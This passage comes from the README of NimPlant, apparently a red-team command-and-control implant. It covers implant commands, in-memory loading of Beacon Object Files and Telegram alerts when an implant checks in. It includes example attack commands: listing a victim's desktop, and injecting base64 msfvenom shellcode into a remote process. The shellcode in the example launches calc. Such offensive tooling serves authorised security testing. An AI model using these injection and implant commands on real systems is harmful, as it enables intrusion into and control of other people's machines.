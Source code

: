 ```
wget              [url] <remotefilepath> Download a file to disk remotely.
whoami            Get the user ID that NimPlant is running as.
```

#### Using Beacon Object Files (BOFs)

**NOTE: BOFs are volatile by nature, and running a faulty BOF or passing wrong arguments or types may crash your NimPlant session! Make sure to test BOFs before deploying!**

NimPlant supports the in-memory loading of BOFs thanks to the great [NiCOFF](https://github.com/frkngksl/NiCOFF) (Nim) and [Coffee](https://github.com/hakaioffsec/coffee) (Rust) projects. Running a bof requires a local compiled BOF object file (usually called something like `bofname.x64.o`), an entrypoint (commonly `go`), and a list of arguments with their respective argument types. Arguments are passed as a space-seperated `arg argtype` pair. 

Argument are given in accordance with the "Zzsib" format, so can be either `string` (alias: `z`), `wstring` (or `Z`), `integer` (aliases: `int` or `i`), `short` (`s`), or `binary` (`bin` or `b`). Binary arguments can be a raw binary string or base64-encoded, the latter is recommended to avoid bad characters.

Some examples of usage (using the magnificent TrustedSec BOFs [[1](https://github.com/trustedsec/CS-Situational-Awareness-BOF), [2](https://github.com/trustedsec/CS-Remote-OPs-BOF)] as an example) are given below. Note that `inline-execute` (without arguments) can be used to configure the command graphically in the GUI.

```bash
# Run a bof without arguments
inline-execute ipconfig.x64.o go

# Run the `dir` bof with one wide-string argument specifying the path to list, quoting optional
inline-execute dir.x64.o go "C:\Users\victimuser\desktop" Z

# Run an injection BOF specifying an integer for the process ID and base64-encoded shellcode as bytes
# Example shellcode generated with the command: msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -f base64
inline-execute /linux/path/to/createremotethread.x64.o go 1337 i /EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu+AdKgpBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA b

# Depending on the BOF, sometimes argument parsing is a bit different using NiCOFF
# Make sure arguments are passed as expected by the BOF (can usually be retrieved from .CNA or BOF source)
# An example:
inline-execute enum_filter_driver.x64.o go            # CRASHES - default null handling does not work
inline-execute enum_filter_driver.x64.o go "" z       # OK      - arguments are passed as expected
```

#### Push Notifications
By default, NimPlant support push notifications via the `notify_user()` hook defined in `server/util/notify.py`. By default, it implements a simple Telegram notification which requires the `TELEGRAM_CHAT_ID` and `TELEGRAM_BOT_TOKEN` environment variables to be set before it will fire. Of course, the code can be easily extended with one's own push notification functionality. The `notify_user()` hook is called when a new NimPlant checks in, and receives an object with NimPlant details, which can then be pushed as desired.
